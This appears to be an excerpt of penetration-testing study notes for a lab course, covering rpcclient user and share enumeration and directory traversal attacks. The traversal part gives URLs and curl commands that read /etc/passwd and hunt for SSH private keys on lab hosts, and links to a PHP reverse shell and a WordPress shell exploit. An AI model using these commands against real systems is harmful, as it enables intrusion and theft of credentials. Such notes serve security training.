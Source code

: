 ```powershell
# description of all users
querydispinfo 
# Share enumeration, this only comesup if the current user we're logged in has permissions
netshareenum 
netshareenumall
# SID of all users
lsaenumsid 
```

---

# Web Attacks

<aside>
💡 Cross-platform PHP revershell: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
</aside>

## Directory Traversal

```bash
# displaying content through absolute path
cat /etc/passwd

# relative path
cat ../../../etc/passwd

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

# In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
# check for id_rsa, id_ecdsa
# If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd 

# For windows, no need to provide drive
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt 
```

- URL Encoding

```bash
# Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

## Local File Inclusion
